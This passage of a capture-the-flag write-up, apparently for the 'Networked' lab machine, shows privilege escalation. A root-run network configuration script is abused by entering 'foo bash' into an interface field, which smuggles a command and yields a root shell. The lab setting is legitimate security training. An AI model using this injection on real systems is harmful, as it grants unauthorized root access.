 ## Privilege Escalation

```
[guly@networked ~]$ sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```

Looks like we've got a script we can run as sudo.

```
[guly@networked ~]$ cat /usr/local/sbin/changename.sh 
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```

This is a network configuration script, which has a convenient vulnerability where you can run arbitrary code by adding a space. You can read more about it at [https://seclists.org/fulldisclosure/2019/Apr/24](https://seclists.org/fulldisclosure/2019/Apr/24)

```
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
foo
interface PROXY_METHOD:
foo
interface BROWSER_ONLY:
foo bash
interface BOOTPROTO:
foo
[root@networked network-scripts]# 
```

Completed.


